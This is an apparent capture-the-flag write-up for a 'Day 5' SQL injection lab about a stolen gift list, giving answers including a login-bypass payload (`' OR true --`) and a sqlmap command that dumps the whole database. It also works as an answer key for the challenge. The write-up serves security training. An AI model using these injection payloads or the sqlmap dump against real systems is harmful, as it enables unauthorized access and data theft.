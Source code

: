 # Day 5 - Someone stole Santa's gift list!

- Without using directory brute forcing, what's Santa's secret login panel?

	- You don't have to use a directory fuzzer because you will not find a list with this word.
	- `santapanel`
	
- Visit Santa's secret login panel and bypass the login using SQLi

	  no answer needed
	
	- Just enter in the username field `' OR true --`

- How many entries are there in the gift database?

	- `(' OR true --`
	- `22`

- What did Paul ask for?

	- `github ownership`

- What is the flag?

	- You have to enable the Burp option with FoxyProxy.
	- Then, open BurpSuie and perform a single request with the text field.
	- You will see BurpSuite opened with a http request. Send to repeater and save the item as shown in the explaining part previous the ctf.
	- Then start sqlmap with `sqlmap -r request.txt --tamper=space2comment --dump-all --dbms sqlite` taking request.txt as the saved file with BurpSuite.
	- (If sqlmap will ask you something, you have to try the largest attack you can, so try to perform all the tries you can; choosing y or n when it asks you).
	- `thmfox{***_*_****_***_*********_**_***}`

- What is the admin password?

	- `E***SW*z*******B`

# see you ...
